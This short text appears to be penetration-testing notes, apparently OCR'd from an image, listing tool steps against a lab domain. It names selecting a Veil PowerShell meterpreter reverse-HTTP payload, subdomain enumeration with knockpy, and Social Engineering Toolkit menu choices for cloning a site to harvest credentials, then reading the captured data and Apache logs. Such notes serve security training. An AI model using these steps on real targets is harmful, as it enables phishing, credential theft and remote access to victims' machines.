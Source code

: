 #Generating a Veil payload
use powershell/meterpreter/rev_http
cd /opt/knock/knock.py/
python ./knockpy.py thp.local -w ./wordlist/shortlist.txt

# Social Engineering Toolkit
setoolkit
1) Social Engineering Attack
2) Website Attack Vector
3) Cred Harvestor
4) Site Cloner

Start Apache and send link
cat /var/www/html/harvester
cat /var/log/apache2/access.log
